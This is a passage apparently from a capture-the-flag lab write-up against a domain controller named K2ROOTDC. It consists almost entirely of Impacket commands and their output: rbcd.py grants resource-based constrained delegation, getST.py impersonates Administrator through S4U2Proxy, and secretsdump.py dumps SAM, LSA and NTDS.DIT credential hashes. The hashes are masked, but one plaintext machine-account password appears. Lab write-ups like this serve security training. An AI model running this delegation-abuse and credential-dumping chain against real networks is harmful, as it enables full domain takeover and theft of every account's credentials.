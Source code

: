 ```bash
:~/K2# python3.9 /opt/impacket/build/scripts-3.9/rbcd.py -delegate-from 'RESEARCHER$' -delegate-to 'K2ROOTDC$' -action 'write' 'K2.thm/o.armstrong:⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃'
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Accounts allowed to act on behalf of other identity:
[*]     ATTACKERSYSTEM$   (S-•-•-••-••••••••••-••••••••••-••••••••-••••)
[*] Delegation rights modified successfully!
[*] RESEARCHER$ can now impersonate users on K2ROOTDC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     ATTACKERSYSTEM$   (S-•-•-••-••••••••••••-••••••••••-••••••••-••••)
[*]     RESEARCHER$   (S-•-•-••-••••••••••-•••••••••••-••••••••-••••)
```

```bash
:~/K2# python3.9 /opt/impacket/build/scripts-3.9/getST.py -spn 'cifs/K2RootDC.k2.thm' -impersonate 'Administrator' 'k2.thm/RESEARCHER$:OhMyGod!123'
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

```bash
:~/K2# export KRB5CCNAME=Administrator.ccache
```

<p align="center">⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆</p>

```bash
:~/K2# python3.9 /opt/impacket/build/scripts-3.9/secretsdump.py -k -no-pass 'k2.thm/Administrator@K2RootDC.k2.thm'
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: ⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
K2\K2ROOTDC$:plain_password_hex:...
K2\K2ROOTDC$:aad3b435b51404eeaad3b435b51404ee:⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃:::
[*] DPAPI_SYSTEM 
...
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆⋆:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃:::
j.smith:1111:aad3b435b51404eeaad3b435b51404ee:⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃:::
o.armstrong:1113:aad3b435b51404eeaad3b435b51404ee:⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃:::
K2ROOTDC$:1008:aad3b435b51404eeaad3b435b51404ee:⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃:::
xx.xxx.x.xx$:1116:aad3b435b51404eeaad3b435b51404ee:⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃:::
xx.xxx.xx.xxx$:1117:aad3b435b51404eeaad3b435b51404ee:⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃:::
ATTACKERSYSTEM$:1118:aad3b435b51404eeaad3b435b51404ee:⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃:::
RESEARCHER$:1119:aad3b435b51404eeaad3b435b51404ee:⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃⁃:::
[*] Kerberos keys grabbed
```